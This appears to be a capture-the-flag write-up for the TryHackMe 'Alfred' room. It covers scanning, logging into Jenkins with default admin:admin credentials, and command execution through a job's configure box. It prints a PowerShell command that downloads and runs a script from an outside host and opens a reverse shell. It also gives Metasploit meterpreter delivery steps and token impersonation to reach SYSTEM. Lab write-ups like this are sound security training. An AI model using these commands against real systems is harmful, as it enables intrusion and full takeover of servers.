# Alfred

## 1. How many ports are open? (TCP only)
Rustscan showed 3 tcp ports that are opened



## 2. What is the username and password for the login panel? (in the format username:password)

Using default credentials admin:admin worked
Port 80 server doesn't have anything but 8080
has jenkins



## 3. What services allow for execution of command
Navigate to job -> project -> configure
We see that there is a textbox that allows us to
execute any command this allows us to gain reverse shell. Download the powershell script given in the thm website and input 
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.32.108:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.11.158 -Port 4444`. Before doing that you need to start a http server in the directory containing the reverse tcp ps1 file. After that we rebuild the project and now we have a reverse shell







## 4. Gaining shell
Run msfconsole and `use exploit/multi/script/web_delivery`. Then run `set exploit 2` to target powershell Then run `set payload windows/meterpreter/reverse_tcp` to change target platform to windows. Fill in your ip and the port you want to listen to then paste the generated payload into the configure textbox that allows us to run command. This should spawn a meterpreter







## 5. priv escalation
Load incognito in our meterpreter shell by running `load incognito`
Next we run `load_tokens -g` to see what token is currently available. We are particularly interested in BUILTIN\Administrators as this allows us to escalate our privilege. Now we run `impersonate_token "BUILTIN\Administrators"` and we see that the uid to impersonate as administrators is `NT AUTHORITY\SYSTEM`



Now we run ps to list all the process and we need to migrate to a process with `NT AUTHORITY\SYSTEM`. svchost.exe provides us with that. Run `migrate <ID of the process>` to migrate to the process. Now we should have admin privilege. Navigate to `C:\Windows\System32\config` to get root.txt 





